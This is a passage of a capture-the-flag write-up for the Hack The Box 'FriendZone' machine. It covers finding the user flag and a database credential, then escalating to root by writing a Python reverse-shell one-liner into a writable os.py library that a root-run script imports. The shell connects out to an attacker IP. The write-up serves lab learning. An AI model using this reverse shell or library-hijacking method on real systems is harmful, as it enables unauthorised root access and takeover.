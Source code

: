 Found the user flag under /home/friend.

![](/Hackthebox/FriendZone/attachment/446e849bf16150be14dac2f450b88377.png)

Next, we found DB credential in the `mysql_data.conf` file
```
friend:Agpyu12!0.213$
```

# Privilege Escalation

Next , we found reporter.py in the `/opt/server_admin` directory.

![](/Hackthebox/FriendZone/attachment/1381528c42c45701c9d78b9b0c6b0fc0.png)

So, we transferred the pspy64 script to look for the events running by root.

![](/Hackthebox/FriendZone/attachment/73e02ca53de3ded2160257c41bb20ec8.png)

Next we run the linpeas.sh and found we can write the os.py library file.

![](/Hackthebox/FriendZone/attachment/9054cbdf14bf1811df17c0e5136ca518.png)

We will write this python reverse shell code on os.py file and obtain a reverse shell with root privileges.
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.96",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![](/Hackthebox/FriendZone/attachment/8a7734641516690e589c81309c27c386.png)

And we read the root flag.


